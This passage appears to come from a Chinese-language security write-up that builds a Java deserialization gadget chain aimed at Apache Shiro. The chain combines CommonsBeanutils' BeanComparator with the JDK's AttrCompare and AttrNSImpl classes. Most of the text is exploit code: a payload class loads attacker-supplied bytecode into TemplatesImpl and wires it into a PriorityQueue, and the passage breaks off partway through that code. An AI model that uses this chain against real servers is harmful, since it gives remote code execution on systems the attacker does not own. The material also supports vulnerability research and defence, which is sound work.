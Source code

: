```java
    }
```

`compare`方法是一个有参方法，所以在调用方法时并不能直接传入两个String类型或者Object类型。

![11](https://img-blog.csdnimg.cn/f7e925b667bd4b979c760313a2e8b6e8.png)

然而Attr是一个接口，不能直接实例化，只能找实现类。这里我使用的是`com\sun\org\apache\xerces\internal\dom\AttrNSImpl.java`类。

![image-20220221183035494](https://cdn.jsdelivr.net/gh/SummerSec/Images/35u3035ec35u3035ec.png)

```
        AttrCompare attrCompare = new AttrCompare();
        AttrNSImpl attrNS = new AttrNSImpl();
        attrNS.setValues(new CoreDocumentImpl(),"1","1","1");
        attrCompare.compare(attrNS,attrNS);
```

最终利用代码：

```
package summersec.shirodemo.Payload;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xerces.internal.dom.AttrNSImpl;
import com.sun.org.apache.xerces.internal.dom.CoreDocumentImpl;
import com.sun.org.apache.xml.internal.security.c14n.helper.AttrCompare;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;



public class CommonsBeanutilsAttrCompare {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        AttrNSImpl attrNS1 = new AttrNSImpl(new CoreDocumentImpl(),"1","1","1");

        final BeanComparator comparator = new BeanComparator(null, new AttrCompare());
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add(attrNS1);
        queue.add(attrNS1);


        setFieldValue(comparator, "property", "outputProperties");
```